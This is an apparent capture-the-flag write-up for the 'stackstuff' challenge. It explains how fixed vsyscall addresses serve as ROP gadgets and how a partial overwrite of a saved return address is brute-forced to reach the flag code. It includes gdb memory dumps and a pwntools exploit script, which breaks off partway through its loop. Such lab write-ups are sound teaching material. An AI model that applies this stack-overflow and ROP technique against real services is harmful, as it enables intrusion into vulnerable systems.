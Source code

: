 The purpose of vsyscalls is to increase performance by offloading certain syscalls to the userspace binary, however they are still a part of the kernel. The beneficial part of vsyscalls is that their addresses are fixed and aren't randomized. As a result, we don't need an infoleak to call them. For which one to call, I just went with `0xffffffffff600800`. I initially tried jumping straight to a `ret` instruction, however it would crash after the second gadget. So I tried jumping to the start of a syscall and it worked. If we place that rop gadget twice as the saved return address and the next QWORD, that will bring the code execution right to the address we partially overwrote.

Now for the partial overwrite. We can see that the address that we are going to be overwritten is going to be `0x000055555555508b` which is `handle_request+177`:

```
gef➤  x/4g 0x7fffffffdee8
0x7fffffffdee8:    0x0000555555554fd1    0x0000000000000000
0x7fffffffdef8:    0x000055555555508b    0x0000000000000002
gef➤  x/i 0x000055555555508b
   0x55555555508b <handle_request+177>:    lea    rsi,[rip+0x36d]        # 0x5555555553ff
```

Since if we were to reach that spot in the code we will get the flag, we will be overwriting it to be the same address. However there is one complication. That is that the base address is `0x0000555555554000`. This means that the randomization doesn't apply to the last `12` bits (since they are zeroed out, and the address is the base address plus the offset, the address will just be whatever the offset is). However since we need to overwrite the 16 least significant bits, we will have to brute force 4 of those bits. Since 2 to the power of 4 is 16, we should be able to guess the address in at most `16` tries.

Also one small thing, while debugging this program, you may need to view the pid and kill it.

## Exploit

Putting it all together, we have the following exploit:

```
from pwn import *

targetProcess = process('./stackstuff')
#gdb.attach(targetProcess)

# Initialize constants
flag = 0
i = 0x00

# Enter into the loop to brute force it
while flag == 0:

    # Establish the connection
    target = remote('127.0.0.1', 1514)

    # Filler from start of our input to return address
    payload = b"0"*0x48

    # Our vsyscall gadget to act essentially as a rop nop
    vsyscall_ret = p64(0xffffffffff600800)

    payload += vsyscall_ret*2

    # Our least significant byte of our partial overwrite
    payload += b"\x8b"

    # The byte which we will be brute forcing
    payload += bytes(chr(i), 'utf-8')

    # Specify length of our input to be 90 bytes
    target.sendline(b'90')

```